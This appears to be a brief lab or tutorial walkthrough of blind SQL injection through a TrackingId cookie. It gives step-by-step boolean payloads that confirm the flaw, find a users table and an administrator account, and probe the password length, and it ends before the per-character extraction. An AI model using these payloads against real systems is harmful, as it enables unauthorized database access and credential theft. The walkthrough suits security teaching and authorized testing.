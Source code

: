 **Modify the CheckingID cookie to confirm the vulnerability**

```
TrackingId=xyz' AND '1'='1
```

and 

```
TrackingId=xyz' AND '1'='2
```

to see if there is a different response

**Confirming that there is a table called *users***

```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```

**Confirming that there is a user called administrator**

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

**Determine how many characters are in the administrator password**

```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

**After determining the length of the password, he next step is to test the character at each position to determine its value**

